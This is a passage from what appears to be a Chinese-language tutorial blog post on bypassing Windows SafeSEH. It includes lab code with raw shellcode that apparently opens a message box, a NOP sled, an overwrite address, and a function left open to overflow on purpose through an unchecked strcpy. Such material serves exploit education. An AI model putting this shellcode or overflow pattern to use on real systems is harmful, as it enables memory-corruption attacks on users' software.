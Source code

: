 ```yaml
---
title: 绕过SafeSEH的方法
date: 2017-07-08 10:01:51
categories: 安全技术
tags: [SEH, windows]
---
```


### 1. 攻击返回地址绕过SafeSEH

在[《栈溢出原理与实践》](/2017/06/22/栈溢出原理与实践/)中有介绍

### 2. 利用虚函数绕过SafeSEH

在[《绕过GS安全编译的方法》](/2017/07/04/绕过GS安全编译的方法/)中有范例

### 3. 从堆中绕过SafeSEH

#### 3.1 实验代码

<pre><code>
#include "stdafx.h"
#include "stdlib.h"
#include "string.h"

char shellcode[] =
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xB8\x28\x39\x00";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1/zero;
}
